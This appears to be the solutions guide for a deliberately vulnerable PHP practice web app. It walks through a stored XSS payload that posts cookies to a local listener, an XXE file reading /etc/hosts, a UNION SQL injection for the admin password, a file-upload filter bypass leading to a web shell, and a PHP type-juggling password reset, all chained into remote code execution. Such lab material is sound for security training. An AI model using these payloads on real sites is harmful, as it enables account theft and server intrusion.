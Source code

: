 
## Solutions & vulnerability locations

**Comments - comments.php**

Name and Comment field should accept something like:
```
{
'name':'name',
'comment':'<script>fetch("http://127.0.0.1:8888",{method: "post",mode: "no-cors",body:document.cookie});</script>'
}
```
Comments and names are stored on the MySQL db and automatically loaded when the page is refreshed.

With a python listener on the host machine, a script like the above should return a cookie.  Since this is not a real website, you'll have to manually log in to test it.

**Order Form - order.php**

Saves an order as an XML file. Only the webadmin account can review orders. Send some XXE here for later.  Order "form" is insecure, but the intended path is to upload something to the "Upload order form option".  There is an example `xxe.xml` file in the Notes folder of the repo.  XML orders can only be viewed at the admin page, which links to xml_read.php. Submitted orders are stored in the resources/orders folder.

xxe.xml:
```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/hosts" >]>
<Order>
  <order order_num="4">
    <Name>Brandon</Name>
    <Address>123 Ashley avenue</Address>
    <Email>BrandonRocks@email.com</Email>
    <Item>&xxe;</Item>
  </order>
</Order>
```

**Products Page - Products.php**

Very open to SQL injection.  Once authenticated as a base user, the attacker can get the webadmin password with something in the product search like:
```
1 UNION SELECT NULL, Username, Password FROM users WHERE Username = "webadmin"
```

**Gallery - social.php**

Reasonable file upload filter, but still weak.  This filter will catch files ending in php, but not php.jpg.  This should work:
`evil.php.jpg`
Then, if an attacker has also grabbed the webadmin password from the products page, from the admin portal they can rename uploads and change the file to `evil.php`.

I've included a cmd.php file in the Notes folder if you want to test it. Submitted images are stored in the resources/user_images folder.  Also accepts svg files if you'd like to try XXE that way, although I haven't tested it.

## Admin-only Pages

**Admin - admin_page.php**

This page contains a way to list uploaded image files and rename or delete them, as well as a way to view XML order forms. Both allow for RCE and potentially a reverse shell, depending on the exploitation path.  Maliciously uploaded image files can be renamed, and XML orders can be viewed. The "recover image" functionalty doesn't let you recover images submitted by other users.  Its there in case you delete something and want it back.  XML orders files, uploaded images, and 'deleted' images are in the Resources folder path of the source code.

An image file can be accessed at the localhost:8000/resources/user_images/<evil.file> path.

**Reset Password - reset_pw.php**

PHP type juggling.  This page does not check to see if the user for which the password is being changed is the same user that is logged in.  It just sets the $username_entered variable equal to whatever $_POST['Username'] is.  It does, however, check the $new_password against the $username_entered password in the DB.  

The syntax in the logic is vulnerable:
```
if (($_POST['new_password'] == $_POST['new_password2']) && (strcmp($_POST['old_password'],$password) == 0)){
```
The first half of this section checks that the new password is entered twice, identically.  The second half compares the DB-supplied and user-supplied password to ensure that they are the same. If the "old" password entered by the user is not the same as their current password, the password change will fail. However, The `== 0` comparison is weak.  PHP evaluates empty arrays as false, which is also "equal to" zero.  Intercepting the HTTP request and changing the 'old_password' to an empty array should allow an attacker to reset the webadmin's password to whatever they like.  Something like this should work:

```
In Burp Suite or another proxy: change old_password=foobar to old_password[]=''
```

**View Orders - view_order.php**

This page renders user provided XML (in the form of an "order form") to the webadmin user.  This should be useful for leveraging XXE attacks submitted via the 'Order Form' page. Orders are automatically assigned numeric names in ascending order.

**db.php**

Hard-coded database credentials are not securely stored, and are left in the default webroot file path.

## No deliberate exploit path, but probably vulnerable anyway due to lazy development ##
- **login.php**
- **logout.php**
- **php.ini** This is just here for docker.
- **phpinfo.php** Included for fun, and can be attacked.
- **continue.php**

This page reflects the user name back to an authenticated user.  Untested, but likely will accept XSS or other input based attacks.  User name is committed to the DB.  No functionality to add a new user or "sign up" is included in the site currently, so it would be difficult to exploit without DB injection.

- **secretdir.php**

The file "secretdir" just holds functions.  It initially was for something else, but I never renamed it.  

## Example Attack Path

**As a user**
1. Stored XSS via comments to obtain user cookie
2. Authenticate with user cookie (or just skip this step and log in as a user from the start)
3. upload a shell with a .php.jgp extension on the 'Gallery' page. Other script types may work, like sh.jpg.
4. Navigate to products page
5. SQLi products page via union select for webadmin password

OR

PHP type juggling to reset webadmin password

Alternatively, attempt an XXE injection on the "Orders page" for later use.

**As webadmin**
1. authenticate as webadmin
2. admin page is now available, although there is no button.  It is admin_page.php.
The admin_page.php site is available after logging in as "webadmin" and clicking the "click here to continue message". A new link for the admin portal should appear.
3. change shell from jpg to php extension
4. use uploaded shell for RCE at /resources/user_images/<filename.php>
5. attempt reverse shell

Alternatively, review the XXE order you placed earlier.
